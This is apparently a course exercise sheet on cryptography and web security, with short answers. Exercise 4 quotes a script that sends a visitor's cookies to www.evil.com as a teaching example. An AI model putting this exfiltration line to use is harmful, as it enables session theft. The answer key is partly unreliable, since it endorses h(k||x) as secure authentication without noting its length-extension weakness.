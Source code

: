 # Exercises sheet 3

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography?


2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k||x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that x was not modified by Bill? Justify your answer.

	
3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k||z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer.



4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:
`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful?


5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.


6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not?

7. Explain why, in general, a web server should not be allowed access to cookies set by another web server.


8. Summarize the difference between persistent and non-persistent cross-site scripting attacks.


9. Explain why input validation mitigates the risks of SQL injection attacks.

# Answers

1. Barack can sign jokes with his private key.
2. Yes. As `k` is shared only between Hillary and Barack, no one can produce a valid d without knowing `k`. Also crypto hash are irreversible, Bill can not learn the secret `k` from d. See massege authentication code MAC slides.

3. This approach does not work as every member of cabinet has the secret `k` and thus is capable of creating the hash, i..e Tim can also claim that z is created by him.
4. No. Becuase of SOP, evil.com will not be able to access the cookies related to buy-all.bz.
5. b
6. Phishing can involved tricks that range from ebing very simple, like asking your credit cards details to sophisticated ones, like redirecting you to a spoofed site. HTTPS can prevent when it comes to site identity with the help of digital certificates. In other simpler cases, it may not be useful.
7. see slides on same origin policy.
8. see slides. Among other differences, one important one is that in the case of non-persistent (reflective), the attacker has to find each individual victim and send her/him the malicious link, whereas in the case of persistant, all an attacker has to do is to just poison the server.
9. to clean the input that may contain some specal characters, like single quote.
